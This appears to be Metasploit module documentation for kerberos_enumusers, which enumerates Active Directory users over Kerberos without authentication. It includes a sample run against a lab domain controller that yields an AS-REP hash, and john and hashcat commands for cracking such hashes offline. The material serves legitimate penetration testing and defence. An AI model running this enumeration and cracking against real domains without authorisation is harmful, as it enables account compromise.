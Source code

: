 ## Vulnerable Application

The kerberos_enumusers module is used to enumerate valid Domain Users
via Kerberos from a wholly unauthenticated perspective. It utilises the
different responses returned by the service to identify users that exist
within the target domain. It is also able to identify whether user
accounts are enabled or disabled/locked out.

## Verification Steps

When verifying the module in the listed examples, it is recommended to test the following accounts:

- Valid account
- Invalid account
- Locked/Disabled account
- Account with spaces
- AS-REP Roastable accounts

## Target

To use kerberos_enumusers, make sure you are able to connect to the
Kerberos service on a Domain Controller.

## Scenarios

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user
accounts.

Create a new `./users.txt` file, then run the module:

```
msf6 auxiliary(gather/kerberos_enumusers) > run rhost=192.168.123.228 domain=domain.local user_file=./users.txt verbose=true
[*] Running module against 192.168.123.228

[*] Using domain: ADF3.LOCAL - 192.168.123.228:88...
[*] 192.168.123.228:88 - User: "missing123" user not found
[+] 192.168.123.228:88 - User: "administrator" is present
[+] 192.168.123.228:88 - User: "account with spaces" is present
[-] 192.168.123.228:88 - User: "locked_account" account disabled or locked out
[+] 192.168.123.228:88 - User: "no_pre_auth" does not require preauthentication. Hash: $krb5asrep$23$no_pre_auth@DOMAIN.LOCAL:bdb54b9e...etc..etc...
[+] 192.168.123.228:88 - User: "fake_mysql" is present
[*] 192.168.123.228:88 - User: "missing1234" user not found
[*] Auxiliary module execution completed
msf6 auxiliary(gather/kerberos_enumusers) > 
```

### ASREPRoast Cracking

Accounts that have `Do not require Kerberos preauthentication` enabled, will receive an ASREP response with a ticket present.
The technique of cracking this token offline is called ASREPRoasting.

Cracking ASREP response with John:

```
john ./hashes.txt --wordlist=./wordlist.txt --format:krb5asrep
```

Cracking ASREP response with Hashcat:

```
hashcat -m 18200 -a 0 ./hashes.txt ./wordlist.txt
```

You can see previously creds with:

```
creds -v
```

## Options

The `kerberos_enumusers` module only requires the `RHOST`, `DOMAIN` and
`USER_FILE` options to run.

**The DOMAIN option**

This option is used to specify the target domain. If the domain name is
incorrect an error is returned and domain user account enumeration will fail.

An example of setting DOMAIN:

```
set DOMAIN [domain name]
```

**The USER_FILE option**

This option is used to specify the file containing a list of user names
to query the Domain Controller to identify if they exist in the target domain
or not. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

**The Timeout option**

This option is used to specify the TCP timeout i.e. the time to wait
before a connection to the Domain Controller is established and data read.

An example of setting Timeout:

```
set Timeout [value in seconds]
```

